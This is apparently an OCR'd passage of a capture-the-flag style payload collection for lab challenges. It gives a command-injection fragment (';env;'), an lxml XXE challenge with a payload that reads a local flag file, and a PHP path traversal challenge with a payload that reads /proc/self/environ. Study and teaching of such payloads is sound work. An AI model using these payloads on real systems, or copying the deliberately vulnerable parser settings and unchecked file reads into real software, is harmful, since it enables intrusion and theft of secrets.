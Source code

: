 ```ps1
';env;'
```


### XXE

**Context**: Use the XXE vulnerability to read the flag from a file. The flag is stored in `/dev/shm/flag.txt`.

```py
from lxml import etree
import os

xml = os.environ.get("PAYLOAD", "")

parser = etree.XMLParser(
    load_dtd=True,
    no_network=True,
    resolve_entities=True,
    recover=True,
)
doc = etree.fromstring(xml.encode(), parser)
print(doc.text)
```

```xml
<?xml version="1.0"?>
$INPUT
```

**Payload**: Basic XXE payload solves the challenge.

```xml
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///dev/shm/flag.txt'>]><root>&test;</root>
```


### Path Traversal

**Context**: Classical Path Traversal vulnerability in PHP.

```php
<?php
$PAYLOAD = getenv('PAYLOAD') ?: '';
print(file_get_contents($PAYLOAD));
```

```ps1
./$INPUT
```

**Payload**: Use `../` to go back to the root folder and then fetch the file containing the environment variables.

```ps1
../proc/self/environ
```
